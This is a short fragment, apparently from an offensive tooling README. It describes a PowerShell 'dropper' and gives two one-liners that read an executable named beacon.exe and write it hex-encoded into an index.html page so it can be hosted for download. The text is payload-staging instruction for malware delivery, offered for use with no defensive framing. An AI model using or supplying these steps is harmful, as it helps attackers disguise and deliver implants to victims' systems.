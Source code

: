 This is the dropper ps1 script.

Get the bytestream of the exe you want to host with:

'''
[byte[]]$data = [System.IO.File]::ReadAllBytes('.\Desktop\beacon.exe') 
'''

Then write it to our index.html page:

'''
[System.IO.File]::WriteAllText('index.html',[System.BitConverter]::ToString($data).Replace('-',''), [System.Text.Encoding]::ASCII)
'''
